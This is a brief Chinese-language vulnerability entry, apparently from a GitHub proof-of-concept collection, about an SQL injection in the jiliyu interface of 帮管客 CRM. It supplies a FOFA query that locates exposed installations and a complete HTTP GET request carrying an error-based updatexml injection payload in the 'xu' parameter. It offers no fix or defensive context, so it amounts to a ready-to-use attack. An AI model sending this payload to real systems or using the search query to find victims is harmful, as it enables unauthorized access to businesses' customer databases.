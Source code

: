## 帮管客CRM-jiliyu接口存在SQL漏洞

帮管客CRM客户管理系统专注于为企业提供crm客户关系管理、crm管理系统、crm软件产品及企业销售管理流程解决方案服务,助力企业业绩增长。帮管客CRM jiliyu接口存在SQL漏洞

## fofa
```
app="帮管客-CRM"
```

## poc
```
GET /index.php/jiliyu?keyword=1&page=1&pai=id&sou=soufast&timedsc=激励语列表&xu=and%201=(updatexml(1,concat(0x7f,(select%20md5(1)),0x7f),1)) HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```

![image](https://github.com/wy876/POC/assets/139549762/3c45eb31-aae1-4dc3-9f96-c1dfa449afbe)
